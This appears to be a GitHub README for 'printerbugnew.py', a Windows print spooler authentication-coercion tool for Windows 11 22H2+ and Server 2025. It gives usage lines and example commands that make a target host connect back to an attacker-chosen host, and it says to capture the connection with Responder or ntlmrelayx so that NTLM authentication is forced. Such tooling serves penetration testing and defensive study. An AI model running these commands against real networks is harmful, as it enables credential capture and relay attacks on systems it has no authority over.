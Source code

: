 # Pure RPC over TCP Printer Spooler Trigger
## For Windows 11 22H2+ / Windows Server 2025


## Usage
```
printerbugnew.py <target_host> [username] [password] [domain] [attacker_host] [tcp_port]
```

## Examples

### Anonymous connection
```bash
printerbugnew.py 192.168.1.100
```

### With credentials
```bash
printerbugnew.py 192.168.1.100 admin Password123 DOMAIN
```

### Trigger backconnect to different host (attacker)
```bash
printerbugnew.py 192.168.1.100 admin Password123 DOMAIN 192.168.1.50
```

### Use specific RPC port
```bash
printerbugnew.py 192.168.1.100 admin Password123 DOMAIN 192.168.1.50 49152
```

## Notes
- Target must be Windows 11 22H2+ or Server 2025 (RPC over TCP default)
- For older versions, spoolss uses RPC over Named Pipes (SMB)
- Ensure ports 135 and dynamic RPC ports (49152-65535) are open
- Start Responder or ntlmrelayx on remote_host to capture auth
- Kerberos fails in this case due to a bad SPN from the spooler, forcing NTLM fallback.
- Based on https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py

